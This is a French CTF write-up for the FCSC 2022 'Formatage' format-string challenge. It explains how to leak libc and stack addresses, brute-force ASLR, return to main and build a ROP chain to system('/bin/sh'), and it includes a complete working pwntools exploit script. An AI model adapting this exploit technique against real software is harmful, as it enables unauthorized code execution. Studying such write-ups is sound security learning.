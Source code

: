 #### Formatage

était un challenge de vulnérabilité de type format string du FCSC 2022

challenge on ne peut plus classique, comme il en revient régulièrement dans les CTFs.

la résolution est la même que pour tous les challenges de ce type..

j'ai plusieurs write-ups dans mon github qui expliquent comment résoudre ce type de challenge,

comme celui ci par exemple:

https://github.com/nobodyisnobody/write-ups/tree/main/DigitalOverdose.2021/pwn/uncurved

qui a une sandbox en plus, mais dans le principe le début est le même.

ou celui ci aussi:

https://github.com/nobodyisnobody/write-ups/tree/main/Imaginary.CTF.2021/pwn/inkaphobia

et d'autres encore..

le reverse est rapide:

![reverse](./pics/reverse.png)

Un buffer est alloué sur la heap avec `getline()`, il est directement affiché avec `printf()` (c'est là la vulnérabilité format string)

En suite le buffer est libéré par `free()`, et le programme sort directement via `exit()`

Pour l'exploitation, les étapes sont les suivantes:

`main()` sortant directement via `exit()`, on essaiera de réécrire sur l'addresse de retour de `printf()` sur la stack.

pour avoir un ret2main en premier

pour cela on utilise une combinaison de '`*c`'  et de '`%hn`'  pour réécrire sur une addresse stack de `env[]`, les variables d'environnements, afin qu'elle pointe sur la return address de printf() , cela nécessire un peu de bruteforce, car l'ASLR est plus ou moins auspicieuse.. (si la valeur 32bits de *c est plus grande que 0x80000000, l'opération échouera).. tout en faisant cela on leak une addresse de libc et de la stack, que l'on récupère à la volée. et on s'en sert pour attendre une ASLR favorable de la stack.

Car la format string n'étant pas blind, nous devons lire tout les caractères retournés, ce qui prendrai trop de temps si les valeurs 32bit basse de l'addresse stack sont trop grandes...

quand toutes ces planètes seront alignées convenablement, notre ret2main fonctionnera et à partir de là,

nous connaitront les addresses de mapping de la libc, stack et prog base...

à partir de ce moment nous écrivont un ROP sur la stack,

et remplaçont l'addresse de retour de printf() par une instruction nous permettant de pivoter sur notre ROP

et nous avons notre shell

![gotshell](/BIGRAID/backup/work.challenges/work/mon.github/write-ups/FCSC.2022/pwn/Formatage/pics/gotshell.gif)

les serveurs étant assez rapides, le bruteforce n'est pas très long..quelques minutes en général..

L'exploit, pour ceux qui voudraient étudier le code de plus près ;)

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./formatage_patched')
libc = ELF('./libc.so.6')

host, port = "challenges.france-cybersecurity-challenge.fr", "2057"

count = 0
while(count<1024):
  print('count = '+str(count))
  if args.REMOTE:
    p = remote(host,port)
  else:
    p = process(exe.path)
  payload = '%p.'+'%c'*13+'.%p.'+'%c'*3+'.%p.'+'%c'*12+'%65109c'+'%*c'+'%hn'+'%8c'+'%49$hhn'+'TOTO' #+'%65172c'+'%hn.%p.'+'%c'*19+'%hhn'+'TOTO'
  p.sendline(payload)
  libc.address = int(p.recvuntil('.',drop=True),16) - 0x218b03
  print('libc.base = '+hex(libc.address))

  p.recvuntil('.',drop=True)
  stack = int(p.recvuntil('.',drop=True),16)
  print('stack = '+hex(stack))
  if ((stack & 0xff000000) > 0x05000000):
    p.close()
    count += 1
    continue

  p.recvuntil('.',drop=True)
  progbase = int(p.recvuntil('.',drop=True),16) - 0x11c9
  print('progbase = '+hex(progbase))

  try:
    p.recvuntil('TOTO', drop=True)
    low1 = (progbase+0x11d5)&0xffff
    p.sendline('%'+str(low1)+'c'+'%49$hn.TITI')
    p.recvuntil('TITI', drop=True)
    if args.GDB:
      q=gdb.attach(p, gdbscript = '''
      source ~/gdb.plugins/gef/gef.py
      gef config context.show_opcodes_size 9
      gef config context.libc_args True
      gef config context.libc_args_path  ~/gdb.plugins/gef-extras/glibc-function-args/
      pie breakpoint 0x1256
      ''')
    break
  except:
    p.close()
    count += 1
    continue

binsh_str = libc.address + 0x1dbcba
pop_rdi = libc.address + 0x000000000002e6c5 # pop rdi ; ret
ret = progbase + 0x101a
shift = libc.address + 0x00000000000a4a04 # add rsp,+0xe8

def writes(addr, value):
  global progbase
  low1 = (progbase+0x11d5)&0xffff
  for i in range(8):
    print('round'+str(i))
    low2 = (addr+i)&0xffff
    if (low1<low2):
      payload = '%'+str(low1)+'c'+'%49$hn'+'%'+str(low2-low1)+'c%18$hn'+'TITI'
    else:
      payload = '%'+str(low1)+'c'+'%49$hn'+'%'+str((65536-low1)+low2)+'c%18$hn'+'TITI'
    p.sendline(payload)
    p.recvuntil('TITI',drop=True)
    p.sendline('%'+str(low1)+'c'+'%49$hn'+'%'+str( (0x100-(low1&0xff))+ord(value[i]) )+'c%47$hhn'+'TITI')
    p.recvuntil('TITI',drop=True)
    
writes((stack-0x58),  p64(pop_rdi))
writes((stack-0x50),  p64(binsh_str))
writes((stack-0x48),  p64(libc.sym['system']))
writes((stack-0x148),  p64(shift))

low1 = (ret)&0xffff
payload = '%'+str(low1)+'c'+'%49$hnTITI'
p.sendline(payload)
p.recvuntil('TITI',drop=True)

p.interactive()
```

